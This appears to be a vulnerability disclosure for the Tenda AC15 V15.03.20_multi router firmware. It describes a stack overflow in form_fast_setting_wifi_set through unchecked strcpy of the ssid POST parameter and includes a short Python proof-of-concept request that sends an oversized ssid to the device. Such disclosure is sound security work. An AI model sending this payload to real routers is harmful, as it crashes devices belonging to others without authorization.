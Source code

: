 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `src` variable receives the `ssid` parameter from a POST request and is later assigned to the `s` and `dest` variable, which is fixed at 64 bytes. However, since the user can control the input of  `ssid`, the statement `strcpy(dest, s);`and `strcpy(dest, src);` can cause a buffer overflow. The user-provided  `ssid` can exceed the capacity of the `s` and `dest` array, triggering this security vulnerability.

![image-20240305161750438](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305161750438.png)

![image-20240314160235128](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314160235128.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    'ssid': 'a' * 1000
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240314160304134](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314160304134.png)

